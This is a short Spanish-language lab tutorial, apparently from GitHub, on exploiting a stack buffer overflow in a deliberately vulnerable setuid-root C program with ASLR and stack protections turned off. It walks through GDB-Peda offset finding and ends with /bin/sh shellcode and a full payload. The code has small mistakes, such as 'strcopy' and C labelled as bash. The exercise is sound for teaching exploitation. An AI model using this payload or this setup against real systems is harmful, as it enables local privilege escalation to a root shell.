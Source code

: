 ## Script
```bash
#include <stdio.h>

void vuln(char *buff){
	char buffer[64];
	strcopy(buffer, buff);
}

void main(int argc, char **argv){
	vuln(argv[1]);
}
```
## Compilacion
 ```bash
 gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 buff.c -o buff
 ```
 ## Permisos
 ```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
 ```
 ## GDB-Peda
 Vemos los registros de la memoria
 
 **Comando:** 
 ```bash
 i r
 ```
 Crea cadenas aleatorias
 
 **Comando:**
 ```bash
 pattern arg 100
 ```
 Ejecuta el binario
 
 **Comando:**
 ```bash
 r
 ```
 En base a la cadena creada anteriormente, busca el tamaño exacto de bites antes de sobreescribir el EIP.
 A ese numero es el que multiplicamos nuestras **"A"** y le sumamos 4 **"B"** que serían 4 bits.
 
 **Comando:**
 ```bash
 pattern search
 ```
 Ver los ultimos registros de la pila
 
 **Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code), que nos sirven a la hora de ejecutar nuestra shell
 ```bash
 \x90
 ```
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 Payload final
 ```bash
 $(python -c 'print "A"*68 + "\xd4\xf4\xff\xbf" + "\x90"*200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
